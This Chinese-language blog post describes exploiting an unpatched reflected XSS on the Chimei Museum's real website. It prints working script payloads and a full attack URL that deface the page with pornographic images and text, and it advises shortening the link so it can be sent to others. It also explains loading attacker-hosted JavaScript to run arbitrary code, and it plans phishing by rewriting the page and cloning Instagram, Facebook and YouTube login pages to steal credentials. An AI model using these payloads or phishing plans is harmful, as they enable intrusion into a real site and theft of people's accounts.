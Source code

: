 # XSS 實戰練習-奇美博物館漏洞探討與釣魚運用

## 前情提要

要自己找到哪些網站有 XSS 太累了，有些技巧，例如可以針對某些類型的網頁去搜尋：

租屋網阿、民宿網、某高中網站、藥廠網站阿等等。

這些網站都寫得比較不專業，自然容易有漏洞。

[回報漏洞:奇美博物館](https://zeroday.hitcon.org/vulnerability/ZD-2023-00843)

![image](https://hackmd.io/_uploads/H1_qzsEh6.png)

偷吃步是去 zerodays 上面看：尋找公開的，就會發現有些漏洞網頁主還是死不修補，

於是我們就可以大作文章。

## 觀念解說

玩了一下，發現網址列上面的確會存儲 query 內容。

這篇文章就要以奇美博物館這個反射型 XXS 來實戰，並且實驗操作的極限在哪。

## 效果展示

### 第一個 payload

```
<script>document.querySelector(".header-block__menu").remove();document.querySelector("#search > section.m-banner.m-banner-noCrumbBg").style.backgroundImage="url('https://ei.phncdn.com/videos/202003/07/290648122/original/(m=eaSaaTbaAaaaa)(mh=BCHkqlaKnE27_UlO)10.jpg')";document.querySelectorAll("h2")[2].innerText="3/3顏射展，男性精液的前衛藝術！"</script>
```

![image](https://hackmd.io/_uploads/HJZ8Mxpna.png)

丟進去之後把網址複製起來，通常這時候找個縮網址即可：
https://reurl.cc/M4GbxK

這樣就可以傳給別人看了！超級屌。

<script>document.querySelector(".header-block__menu").remove();document.querySelector("#search > section.m-banner.m-banner-noCrumbBg").style.backgroundImage="url('https://ei.phncdn.com/videos/202003/07/290648122/original/(m=eaSaaTbaAaaaa)(mh=BCHkqlaKnE27_UlO)10.jpg')";document.querySelectorAll("h2")[2].innerText="3/3顏射展，男性精液的前衛藝術！"</script>

### 第二個 payload

[網址內容長這樣](https://www.chimeimuseum.org/search?q=++%3Cscript%3Edocument.querySelector%28%22.header-block__menu%22%29.remove%28%29%3Bdocument.querySelector%28%22%23search+%3E+section.m-banner.m-banner-noCrumbBg%22%29.style.backgroundImage%3D%22url%28%27https%3A%2F%2Fpng.pngtree.com%2Fthumb_back%2Ffw800%2Fbackground%2F20230720%2Fpngtree-glimmering-bathroom-with-an-abundance-of-light-fixtures-sizable-framed-mirror-image_3709771.jpg%27%29%22%3Bdocument.querySelectorAll%28%22h2%22%29%5B2%5D.innerText%3D%223%2F4%E9%AD%AF%E8%9B%87%E5%B1%95%EF%BC%8C%E9%8F%A1%E5%AD%90%E5%85%A7%E7%9C%8B%E8%A6%8B%E8%87%AA%E5%B7%B1%E7%9A%84%E6%A8%A1%E6%A8%A3%EF%BC%81%22%3C%2Fscript%3E)

![image](https://hackmd.io/_uploads/ryAV7mUhT.png)

## 兩種反射型 XSS

眾所周知，斯斯有三種，XSS 也是剛好 TM 的三種！今天我們不談其他兩種，只說這個最弱的：
反射型 XSS(而它本身又分為兩種)。

這個分類很重要，一般網路上都沒有，也是我玩這麼久去歸類出來的。

### 存儲型反射

第一種是存儲型反射，會把搜尋的 query 丟在網址列上，這個有操作性可言，
可以搞 prank 也可以玩比較大的。

### 廢物型反射

第二種是廢物型反射，也就是說網頁是使用 ajax 動態加載，因此噴出來的 XSS 沒什麼意義，只有自己手測可以復現，沒辦法讓人家看到你打出來的漏洞。

大多數反射 XSS 都是屬於第二種，所以網站主不去修補也沒關係，這就讓人感覺「明明有 XSS 怎麼好像沒屁用？」，因為這些人不了解原來 query(搜尋字符)沒有出現在網址列的反射型，僅僅廢物型的反射。

其他文章我就不查了，舊的 XSS 筆記有整理。

[淺談 XSS 攻擊與防禦的各個環節](https://blog.huli.tw/2021/06/19/xss-attack-and-defense/)

[【跨域脚本攻击】第一弹——反射型 XSS](https://zhuanlan.zhihu.com/p/347609837)

## 使用 JSdelivr 託管 js

注入 XSS 的時候引用一包託管的 JS，然後試試看呼叫裡面的函數：

![image](https://hackmd.io/_uploads/S1vhL622a.png)

成功了！代表這樣操作是可以的，也就是說只要引入自己的託管 JS，想跑什麼程式碼都可以唷。
這時候如果裡面有運用到 ajax 就變成了 JSONP。

[筆記-如何使用 Github 與 JSdelivr 託管 js 代碼？](https://hackmd.io/faXPpHLdQGuBHZa77pJquQ#%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8Github%E8%88%87JSdelivr%E8%A8%97%E7%AE%A1js%E4%BB%A3%E7%A2%BC%EF%BC%9F)

## 接下來的發展

1.把這個網頁拿去做釣魚網站，這個方式的缺點是 url 已經是奇美博物館，細心的人不會上當。

2.將奇美博物館裡面的內容魔幻改寫，進行騙資料的操作。

詳細的做法可能是以"某個優惠領取"，要先登入這樣子的模式，跳出視窗去騙取。

以上兩種都要考慮散播的地方，看是在賴上丟給朋友還是其他地方，這點頗重要。

### 釣魚網站的細節

第一個點子是使用 IG，方式是做一個假網美的頁面，讓人想要登入進去。
也就是 PTT 鄉民求"傳送門"的這個慾望心態。

這個做法有一個限制是「散播的地點」，假設是廣發在論壇群組之類的，不能做知名人物，
假設是奎丁，大家都知道是 zamy_ding，也就是 ID，而這個門就不值得登入了。

第二個點子，用騙的，直接假冒 IG 某網美身分，然後丟連結給人家追蹤，當他按下去，
勢必要先進行登入這件事情。

<iframe width="560" height="315" src="https://www.youtube.com/embed/jTrNYxDuSWc?si=YgkSROG4LyU0YgDs" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" allowfullscreen></iframe>

我打算自己 clone 手刻出來，順便練習 HTML 三件套的基礎功力，未來也可以放 github 上。

那我的計劃就是 clone IG FB YT 這三個，做完三個專案，也就騙這三個吧 XD

